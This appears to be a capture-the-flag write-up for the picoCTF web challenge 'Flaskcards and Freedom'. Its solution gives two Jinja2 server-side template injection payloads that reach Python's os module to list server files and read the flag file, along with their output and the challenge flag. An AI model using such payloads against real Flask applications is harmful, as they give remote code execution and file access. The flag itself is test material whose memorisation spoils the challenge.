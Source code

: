 # Flaskcards and Freedom
Web exploitation, 900 points

## Description:
> There seem to be a few more files stored on the flash card server but we can't login. Can you?


## Solution:

This challenge linked to a website similar to the one in the [original challenge](Flaskcards.md), and in fact the solution was similar too.

```
Input:
{{''.__class__.mro()[1].__subclasses__()[616]()._module.__builtins__.__import__('os').listdir('.')}}

Output:
['app', 'xinet_startup.sh', 'server.py', 'flag'] 

---

Input:
{{''.__class__.mro()[1].__subclasses__()[616]()._module.__builtins__['open']('flag').read()}}

Output:
picoCTF{R_C_E_wont_let_me_be_33c4aa61} 
```

The flag: picoCTF{R_C_E_wont_let_me_be_33c4aa61} 